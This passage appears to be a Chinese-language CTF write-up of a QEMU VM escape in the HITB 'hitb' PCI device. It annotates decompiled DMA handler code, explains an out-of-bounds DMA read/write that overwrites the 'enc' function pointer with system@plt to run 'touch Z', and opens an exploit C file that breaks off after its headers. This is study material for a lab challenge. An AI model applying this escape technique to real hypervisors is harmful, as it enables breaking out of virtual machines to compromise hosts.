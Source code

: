   ```c
        cpu_physical_memory_rw(opaque->dma.dst, cnt_low, opaque->dma.cnt, 1);
        v4 = opaque->dma.cmd;
        v5 = v4 & 4; // & 0b100 --> if enc
      }
      else // 0b01 (讀取)
      {
        // v6 應該要是某塊 buffer 的位址
        v6 = &opaque[-36] + opaque->dma.dst - 2824;
        LODWORD(cnt_low) = opaque + opaque->dma.dst - 0x40000 + 3000;
        // 0 -> read from phymem
        // 從 opaque->dma.src 讀 opaque->dma.cnt 個字元寫入 v6 內
        cpu_physical_memory_rw(opaque->dma.src, v6, opaque->dma.cnt, 0);
        v4 = opaque->dma.cmd;
        v5 = v4 & 4;
        if ( (v4 & 4) != 0 ) // 0b101 (encode)
        {
          cnt_low = LODWORD(opaque->dma.cnt);
          // enc(buf, len)
          opaque->enc(v6, cnt_low);
          v4 = opaque->dma.cmd;
          v5 = v4 & 4;
        }
      }
      opaque->dma.cmd = v4 & 0xFFFFFFFFFFFFFFFELL;
      if ( v5 ) // if enc
      {
        opaque->irq_status |= 0x100u; // update irq status
        hitb_raise_irq(opaque, cnt_low);
      }
    }
  }
  ```

  - 這個 device 實作了 DMA(Direct Memory Access) 的機制，允許不同速度的硬體裝置與記憶體溝通，並把資料先複製到其他 memory region 做操作，之後在寫回去
    - `HitbState.dma_buf` 為 DMA buffer，大小為 4096 (0x1000)
      - 而 member `dma_buf` 後面接著是 function pointer `enc`，如果能做到 overflow，則可以控制程式執行流程
  - 因為 `opaque->dma.cnt` 的大小可以控制，因此可以再配合 dma read / write 做到 oob，覆蓋 `enc` 成 `system@plt`，最後呼叫 `enc("touch Z")` 做到 VM escape



exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdint.h>
#include <inttypes.h>
#include <sys/mman.h>

#define PFN_PRESENT (1ull << 63)
#define DMABUF_MAPPED_SIZE 0x1000
#define DMA_BASE 0x40000

unsigned char *mmio_mem, *dmabuf;
uint64_t dmabuf_phys_addr;

void pexit(const char *msg)
{
	perror(msg);
    exit(1);
}
```